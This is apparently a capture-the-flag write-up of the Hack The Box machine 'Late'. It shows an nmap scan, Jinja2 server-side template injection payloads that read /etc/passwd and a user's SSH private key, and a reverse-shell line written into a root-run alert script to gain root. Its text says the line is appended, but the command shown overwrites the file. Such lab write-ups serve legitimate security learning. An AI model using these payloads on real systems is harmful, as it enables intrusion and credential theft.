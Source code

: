 ```yaml
---
layout: single
title: Late - Hack The Box
excerpt: "Late is a easy Linux machine, we start this machine by going into the web page, there we will find a redirect to images.late.htb. On this page we will find that its a image to text converter with flask meaning that the software behing it is Jinja2. We found a SSTI on the file upload that let you read the id_rsa of svc_acc. Finally we are able to get root by using the file ssh-alert.sh "
date: 2023-02-13
classes: wide
header:
  teaser: /assets/images/htb-writeup-Late/Late-Logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - easy
  - Linux
  - SSTI 
  - Jinja2
  - Flask 

---
```


![](/assets/images/htb-writeup-Late/Late-Logo.png)

### Machine IP = 10.10.11.156

## Port Scan

We start with the NMAP scan:
* sudo nmap -sS -sV -sC -p- -vvv -oA nmap/allPorts 10.10.11.156

```
# Nmap 7.93 scan initiated Tue Jan 31 15:14:48 2023 as: nmap -sS -sV -sC -p- -vvv -oA nmap/allPorts 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up, received echo-reply ttl 63 (0.056s latency).
Scanned at 2023-01-31 15:14:49 EST for 117s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28394698171e461a1ea1ab3b9a577048 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration 

From the scan the clear option is to go to the web server (port 80) and after investigating it we are able to find a redirect link on it

![](/assets/images/htb-writeup-Late/Late-1.png)

Then we need to add ***images.late.htb*** to /etc/hosts and now we are able to get to the page:

![](/assets/images/htb-writeup-Late/Late-2.png)

We find a new page that is a image to text converter with [flask](https://pythonbasics.org/what-is-flask-python/) thus most likely this is running on Jinja2. If we look online for flask and jinja2 exploits we can see that the first thing that pop-up is SSTI.

## Gaining foothold

We start checking the photo to text conversion and it does change whatever we see on the picture. Now we try to upload a new picture writting the following basic SSTI:

* {{7*7}}


When we download the ***result.txt*** file we can see that the basic injection of 7 * 7 is "processed" and its showing the result of the injection

![](/assets/images/htb-writeup-Late/Late-3.png)

after trying multiple injections, multiple backgrounds and multiple fonts to make the injection work we are able to read the **/etc/passwd** file

* {{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}


![](/assets/images/htb-writeup-Late/Late-4.png)

From the same we can we that the only possible user appart from root that we can attack is **svc_acc**

![](/assets/images/htb-writeup-Late/Late-5.png)


Now that we know the user we can try to get its id_rsa key in case it is created

* {{get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read()}}

![](/assets/images/htb-writeup-Late/Late-6.png)


with the id_rsa key and the username for sure we can now login to the machine using the **-i** flag on ssh, and we are able to get **user.txt** flag.
![](/assets/images/htb-writeup-Late/Late-7.png)


## Privilege Escalation 

We start looking for any interesting files that might belong to svc_acc that could lead us to some sort of privilege escalation 
```
find / -user svc_acc 2>/dev/null | grep -v -E 'sys|proc|run|home' 
```
![](/assets/images/htb-writeup-Late/Late-8.png)

![](/assets/images/htb-writeup-Late/Late-9.png)

if we look at the file ssh-alert.sh it is basically a file in which the recipient is ROOT and investigating about it all that is is going to do is to send an alert to the user ***when a login or a logout***  is happening on the system.

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

To get root access/privileges what we need to do is to add a reverse bash shell line to the existing ssh-alert.sh file and then trigger the alert. First we add the command at the end of the file.

```
echo 'sh -i >& /dev/udp/10.10.14.5/443 0>&1' > /usr/local/sbin/ssh-alert.sh
```

now we trigger the alert and our open nc should has root sheell

![](/assets/images/htb-writeup-Late/Late-10.png)